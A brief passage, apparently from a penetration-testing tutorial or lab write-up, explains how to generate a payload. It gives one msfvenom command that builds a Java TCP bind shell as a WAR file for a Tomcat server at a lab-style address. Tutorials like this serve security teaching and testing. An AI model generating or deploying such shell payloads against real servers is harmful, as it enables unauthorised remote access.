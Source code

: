 ![virtual infosec](image-16.png)



## Generating Payloads


To generate a payload that can trigger a **TCP bind shell** with **msfvenom**, assuming the host is 10.10.10.55 and runs on an Apache Tomcat web server(Java based), we use the **syntax command**:

> msfvenom -p java/shell/bind_tcp LPORT=9005 RHOSTS=10.10.10.55 -f war -o payload.war
